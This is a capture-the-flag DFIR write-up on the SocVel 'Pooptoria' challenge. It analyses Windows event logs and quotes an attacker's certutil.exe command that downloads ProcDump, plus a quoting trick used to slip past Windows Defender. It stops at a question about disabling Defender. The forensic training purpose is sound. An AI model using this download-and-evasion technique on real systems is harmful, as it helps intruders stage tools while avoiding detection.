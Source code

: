# Pooptoria

## DFIR, 3000 points

### Description

The notorious threat actor Fancy Poodle has done it again! This time striking at Strikdaspoort Wastewater Treatment Plant in Pretoria, South Africa...

Do you have what it takes to solve the investigation while only using limited triage data? All before the license-dongle-wielding forensic analysts have checked their write blockers out of storage?

For more information, check the [Pooptoria scenario backstory](https://socvel.com/pooptoria.html#Pooptoria).

Author: [SocVel](https://twitter.com/socveldotcom)

### Solution

For this lab, I will explain my investigation work regarding this hack. To break down this exercise, I will focus on interesting questions asked in this SocVel's challenge. Thus, some questions might be omitted.

Most of the logs for this challenge uses the `.evtx` extension which are logs managed by Windows Event Viewer, you can get more information on [this Forensics Wiki](https://forensicswiki.xyz/wiki/index.php?title=Windows_XML_Event_Log_%28EVTX%29) or [this LogRhythm documentation](https://docs.logrhythm.com/docs/devices/ms-windows-event-log-sources/ms-windows-event-logging-xml-windows-defender/malware-detection-events-xml-logs
). In order to deal with Windows Event Log files on my Linux operating system, I converted them into XML files with a Python script `evtx_dump.py`, available in my GitHub repository [there](https://github.com/exti0p/ctf/blob/master/2021/SocVel/DFIR/evtx_dump.py).

#### Q3) What was the full command the attacker ran that led to the successful download of the archive?

After implanting a trojan (Ceprolad Trojan), the attacker indeed downloaded successfully a very particular archive, as `Administrator`, after one fail. From the `Sysmon.xml` file, the latter was blocked by Windows Defender, he tried this command at first: 
```bash
$ certutil.exe -urlcache -split -f https://download.sysinternals.com/files/Procdump.zip procdump.zip
```

After a few seconds he added quotes to the malicious URL to bypass the detection, hence, according to event record ID 11804 (`<EventRecordID>11804</EventRecordID>`), he ran this full command:

```bash
$ certutil.exe  -urlcache -split -f "https://download.sysinternals.com/files/Procdump.zip" procdump.zip
```

#### Q5) The attacker seems to have tried and failed to disable Windows Defender via the command line. What command was run on the host for this?
